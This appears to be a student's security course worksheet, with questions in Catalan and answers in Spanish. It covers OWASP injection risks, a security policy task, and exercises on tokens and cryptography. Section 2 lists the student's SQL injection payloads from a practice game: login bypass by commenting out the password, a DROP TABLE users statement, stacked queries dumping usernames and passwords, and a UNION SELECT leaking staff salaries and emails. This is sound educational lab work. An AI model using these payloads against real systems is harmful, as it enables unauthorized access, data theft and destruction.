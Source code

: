1. L’organització OWASP Foundation va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web.

a. Escull 3 vulnerabilitats d’aquesta llista i descriu-les. Escriu l’impacte que tenen a la seguretat i quins danys pot arribar a fer un atac en aquesta vulnerabilitat. Enumera diferents mesures i tècniques per poder evitar-les.

  A03:2021 - Inyección: Este tipo de vulnerabilidad ocurre los datos introducidos por el usuario no son verificados, se invocan consultas dinámicas o no parametrizadas sin tener en cuanta la relacion entre los parámetros y el contexto. Tambien ocurre cuando se introducen datos dañinos dentro de los parametros de busqueda (ORM) para conseguir informacion privada.

  Como evitar esta vulnerabilidad: la opcion más popular es utilizar una API segura, que evite el uso de un intérprete por completo y proporcione una interfaz parametrizada o utilizar una herramienta de ORM.
Nota: Incluso cuando se parametrizan, los procedimientos almacenados pueden introducir una inyección SQL si el procedimiento PL/SQL o T-SQL concatena consultas y datos, o se ejecutan parámetros utilizando EXECUTE IMMEDIATE o exec().

Tambien se pueden utilizar las conocidas "White List" para implementar validaciones de entrada, aun que por desgracia esto no es completamente seguroo debido a que muchas aplicaciones requieren el uso de caracteres especiales, como en campos de texto o APIs para aplicaciones móviles.

Para evitar que una fuga masiva de datos se puede utilizar "Limit" y consultas SQL.

Daños a causa de esta vulnerabilidad: 
  
2. Obre el següent enllaç (sql inseckten) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL. 

a. Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.
Tutorial:
SELECT username 
FROM users 
WHERE username ='jane' AND password ='0e274e1d1a8948f16f0227e4ec1965a8';
Ej 1
SELECT username 
FROM users 
WHERE username ='jane'--' AND password ='d41d8cd98f00b204e9800998ecf8427e';
Entrar con un usuario y sin contraseña, comentando todo lo posterior al nombre
Ej 2
SELECT username 
FROM users 
WHERE username ='';DROP TABLE users;--' AND password ='d41d8cd98f00b204e9800998ecf8427e';
He conseguido eliminar la tabla users, terminando la sentencia esperada por el codigo y escribiendo la sentencia necesaria para borrar dicha tabla
Ej 3
SELECT username 
FROM users 
WHERE username =''; SELECT username FROM users --' AND password ='d41d8cd98f00b204e9800998ecf8427e';
He conseguido  todos los nombres, terminando la sentencia y escribiendo una nueva
Ej 4
SELECT username 
FROM users 
WHERE username =''; SELECT username FROM users limit 1--' AND password ='d41d8cd98f00b204e9800998ecf8427e';
He conseguido un nombre, terminando la sentencia y despues escribiendo la sentencia necesaria limitando las respuestas a una
Ej 5
SELECT product_id, brand, size, price 
FROM shoes 
WHERE brand='Nicke';
He conseguido que me muestre los productos de la marca nike

SELECT product_id, brand, size, price 
FROM shoes 
WHERE brand=''; SELECT username, password FROM users --';
He conseguido los nombres y las contraseñas, terminando las sentencia y escribiendo lo que necesitaba recordando los ejercicios anteriores
Ej 6
SELECT username 
FROM users 
WHERE username =''; SELECT salary AS username FROM staff WHERE firstname = 'Greta Maria'--' AND password ='d41d8cd98f00b204e9800998ecf8427e';
He conseguido la cifra de cuanto cobra Greta Maria, termionando la sentencia y creando otra haciendo que el salario lo interprete como el usuario y luego solo poner la restriccion
Ej 7
SELECT product_id, brand, size, price 
FROM shoes 
WHERE brand=''UNION SELECT staff_id, name, firstname, email, salary, employed_since FROM staff--';
He conseguido todos los campos mencionados, con ayuda de la pista que te da la web, la unica complicacion era mi desconocimineto del 'UNION' una vez resueto todo lo demás es facil

b. Enumera i raona diferents formes que pot evitar un atac per SQL injection en projectes fets amb Razor Pages i Entity Framework. 


3. L’empresa a la qual treballes desenvoluparà una aplicació web de venda d’obres d’art. Els artistes registren les seves obres amb fotografies, títol, descripció i preu.  Els clients poden comprar les obres i poden escriure ressenyes públiques dels artistes a qui han comprat. Tant clients com artistes han d’estar registrats. L’aplicació guarda nom, cognoms, adreça completa, dni i telèfon. En el cas dels artistes guarda les dades bancaries per fer els pagaments. Hi ha un tipus d’usuari Acount Manager que s’encarrega de verificar als nous artistes. Un cop aprovats poden pública i vendre les seves obres.

Ara es vol aplicar aplicant els principis  de seguretat per tal de garantir el servei i la integritat de les dades. T’han encarregat l'elaboració de part de les polítiques de seguretat. Elabora els següents apartats:

a. Definició del control d’accés: enumera els rols  i quin accés a dades tenen cada rol. 

b. Definició de la política de contrasenyes: normes de creació, d’ús i canvi de contrasenyes. Raona si són necessàries diferents polítiques segons el perfil d’usuari.

c. Avaluació de la informació: determina quin valor tenen les dades que treballa l'aplicació. Determina com tractar les dades més sensibles. Quines dades encriptaries?

4. En el control d’accessos, existeixen mètodes d’autenticació basats en tokens. Defineix l’autenticació basada en tokens. Quins tipus hi ha? Com funciona mitjançant la web? Cerca llibreries .Net que ens poden ajudar a implementar autenticació amb tokens.

5. Crea un projecte de consola amb un menú amb tres opcions:

a. Registre: l’usuari ha d’introduir username i una password. De la combinació dels dos camps guarda en memòria directament l'encriptació. Utilitza l’encriptació de hash HA256. Mostra per pantalla el resultat.

b. Verificació de dades: usuari ha de tornar a introduir les dades el programa mostra per pantalla si les dades són correctes.

c. Encriptació i desencriptació amb RSA. L’usuari entrarà un text per consola. A continuació mostra el text encriptat i en la següent línia el text desencriptat. L’algoritme de RSA necessita una clau pública per encriptar i una clau privada per desencriptar. No cal guardar-les en memòria persistent.

Per realitzar aquest exercici utilitza la llibreria System.Security.Cryptography.

6.  Referències:

